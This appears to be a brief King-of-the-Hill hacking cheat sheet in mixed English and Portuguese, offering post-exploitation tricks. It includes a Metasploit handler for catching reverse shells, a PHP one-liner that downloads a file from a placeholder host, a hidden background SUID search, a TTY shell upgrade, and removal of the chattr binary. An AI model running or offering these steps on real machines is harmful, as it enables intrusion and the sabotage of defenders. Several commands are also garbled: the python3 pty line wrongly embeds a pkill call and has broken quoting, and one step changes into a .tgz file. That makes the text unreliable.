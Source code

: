                                                    <Tricks-For-All-Things>

# if you need (sure will) to install "chattr" on a machine here's a gift: 

```
https://github.com/Macchimne/Chattr-for-Koth
```

# if you want to create a simple web server in python (generally to download or install something from machine to machine): 

```
python3 -m http.server <port>
```

# if you need to see open ports:

```
netstat -anpt
```

# Download files using php:

```
php -r "copy('https://endereco.com/arquivo.txt','nome_do_arquivo_na_maquina.txt');"

```

```
# receive connections by metasploit:
```
```
use exploit/multi/handler
set PAYLOAD generic/shell_reverse_tcp
set LHOST 127.0.0.1
set LPORT 8080
set ExitOnSession false
exploit -j
```

# if you need to install python without root:
```
wget https://www.python.org/ftp/python/3.9.9/Python-3.9.9.tgz
```
```
tar -zxvf Python-3.9.9.tgz
cd Python-3.9.9.tgz
mkdir ~/.localpython
./configure --prefix=/home/$(whoami)/.localpython
make;make install
```

# a fully tty shell:

```
python3 -c"pkill -9 -t pts/ 'import pty;pty.spawn("/bin/bash")'

"ctrl + z"

stty raw -echo && fg

aperte "enter" novamente

export TERM=xterm-256color
```

# Search Suid's:
```
find / -perm -u=s -ls 2>/dev/null > /tmp/.find &
```

# delete chattr:
```
rm -rf /usr/bin/chattr
  ```
# ---END---
